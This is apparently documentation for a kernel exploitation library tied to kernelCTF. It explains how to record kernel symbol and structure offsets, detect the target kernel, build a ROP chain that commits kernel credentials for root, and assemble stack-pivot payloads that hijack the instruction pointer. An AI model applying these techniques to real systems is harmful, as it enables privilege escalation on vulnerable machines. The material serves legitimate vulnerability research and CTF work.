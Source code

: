 How to get started
==================

Creating a Database
-------------------

1.  Add the necessary includes to the exploit code.

    .. code-block:: c++

        #include <cassert>
        #include <target/TargetDb.cpp>
        #include <test/kpwn/Kpwn.cpp>
        #include <util/incbin.cpp>
        #include <util/syscalls.cpp>
        #include <util/error.cpp>
        #include <util/pwn_utils.cpp>
        #include <payloads/Payload.cpp>
        #include <util/HexDump.cpp>
        #include <util/ArgumentParser.cpp>
        #include <pivot/PivotFinder.cpp>
        #include <pivot/StackPivot.cpp>
        #include <payloads/PayloadBuilder.h>
        #include <payloads/PayloadBuilder.cpp>

2.  Include the **target\_db** in the exploit. ``INCBIN`` creates a read-only section in the binary with the file contents.

    .. code-block:: c++

        INCBIN(target_db, "target_db.kpwn");

3.  Initialize **TargetDb**:

    .. code-block:: c++

        TargetDb kpwn_db(target_db, target_db_size);

4.  Already available in database structure and symbol offsets are documented in ``kpwn_db/config.py``. They are added for all the supported targets.

5.  If the needed symbol is not in database, use ``Target`` object to add it. One object per target needed. For example:

    .. code-block:: c++

        Target st("kernelctf", "cos-105-17412.294.34");

        st.AddSymbol("nft_last_ops", 0x1acaf20);

        kpwn_db.AddTarget(st);

6.  Similar approach could be taken for adding structure and fields information:

    .. code-block:: c++

        Target st("kernelctf", "cos-105-17412.294.34");

        st.AddStruct("nft_expr_ops", 128,
                    {{"dump", 64, 8},
                    {"type", 120, 8}});

        kpwn_db.AddTarget(st);

    .. note::
        ``128`` in the example above is a size of the ``nft_expr_ops`` structure. ``{"dump", 64, 8}`` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target **TargetDb** is being run on.

    .. code-block:: c++

        auto target = kpwn_db.AutoDetectTarget();
        printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());

8.  Access pre-defined or added (via ``Target``) structures and symbols using following calls:

    .. code-block:: c++

        auto offset = target.GetStruct("nft_expr_ops").size + target.GetStruct("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

        *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops

Building the Payload
--------------------

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1.  Initialize a ``Payload`` object. This will serve as the buffer for our ROP chain and other necessary data.

    .. code-block:: c++

        Payload payload(1024);

2.  If the payload contains constants / areas that should not be overwritten by ``PayloadBuilder``, mark them as reserved:

    .. code-block:: c++

        payload.Reserve(0, 8);

    .. note::
        Reserves 8 bytes at offset 0.

3.  Create the ``RopChain``. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The ``Ret2Usr`` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    .. code-block:: c++

        RopChain rop(target, kaslr_base);
        rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
        RopUtils::Ret2Usr(rop, (void*)win);

    .. note::
        Available ROP actions could be found in ``kpwn_db/config.py``.

Assembling the Final Payload with PayloadBuilder
------------------------------------------------

The ``PayloadBuilder`` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1.  Initialize the ``PayloadBuilder`` with the target's available pivot gadgets and the KASLR base.

    .. code-block:: c++

        PayloadBuilder builder(target.pivots, kaslr_base);

2.  Add the ``payload`` object to the builder. You need to specify which register will point to your payload buffer (e.g., ``Register::RSI``) and the offset within that buffer where the instruction pointer (``rip``) will be hijacked.

    .. code-block:: c++

        uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
        builder.AddPayload(payload, Register::RSI, rip_off);

    In the situation when multiple registers contain a pointer to the payload, it's worth informing ``PayloadBuilder`` about it:

    .. code-block:: c++

        uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
        builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);

    ``PayloadBuilder`` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform ``PayloadBuilder`` about such a setup use:

    .. code-block:: c++

        Payload payload1(payload_size_1);
        Payload payload2(payload_size_2);
        PayloadBuilder builder(target.pivots, kernel_base); // create builder

        builder.AddPayload(payload1, std::nullopt, std::nullopt);
        builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     

3.  Add the ``RopChain`` to the builder.

    .. code-block:: c++

        builder.AddRopChain(rop);

4.  Build the final payload. The ``Build()`` method will find an appropriate pivot gadget that uses the specified register (``RSI`` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the ``payload`` object you provided earlier.

    .. code-block:: c++

        if(!builder.Build()) 
            exit(-1); 

    Once built, the ``payload`` object contains the complete, ready-to-use exploit payload.

5.  In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

    .. code-block:: c++

        *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
